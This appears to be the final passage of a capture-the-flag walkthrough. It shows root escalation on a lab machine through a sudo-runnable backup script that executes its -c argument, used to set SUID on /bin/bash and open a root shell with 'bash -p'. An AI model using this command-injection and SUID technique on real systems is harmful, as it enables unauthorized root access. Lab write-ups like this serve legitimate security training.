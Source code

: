 ```bash

cmd=$($command)
echo $cmd
```


After checking the script, there is an interesting interaction here:
```bash
while getopts c: flag
do
        case "${flag}" in 
                c) command=${OPTARG};;
        esac
done
```
This function gets a parameter from the command line(-c).

```bash
cmd=$($command)
echo $cmd

```
This executes the command! So we can just use `-c "cat /root/root.txt"` or we compromize the system completely.
We can give the `/bin/bash` the `SUID` bit:

```bash
alex@ubuntu:/etc/mp3backups$ sudo ./backup.sh -c "chmod +s /bin/bash"

```
Now we can use `bash -p` to get `bash` in `privilged mode`:
```bash

alex@ubuntu:/etc/mp3backups$ bash -p
bash-4.3# whoami
root
bash-4.3# ls
backed_up_files.txt  backup.sh  ubuntu-scheduled.tgz
bash-4.3# cd /root/
bash-4.3# ls
root.txt
bash-4.3# cat root.txt
flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}
bash-4.3#

```
And we found our `root flag`:

Root Flag:`flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}`


## Thoughts

I really enjoyed the challenge. In this challenge, we had to familiarize ourselves with new tools, such as the backup tool, and prove that you have to put a lot of research and time into pentests.
What did we learn today? 

- using `rustscan/nmap` to scan for open ports and vulnerabilities
- using `dirsearch` to scan for hidden directories
- using `john` to crack a hash with a password list
- using `borg backup` to restore a saved repository
- understand and exploit a weak `script` to compromize a machine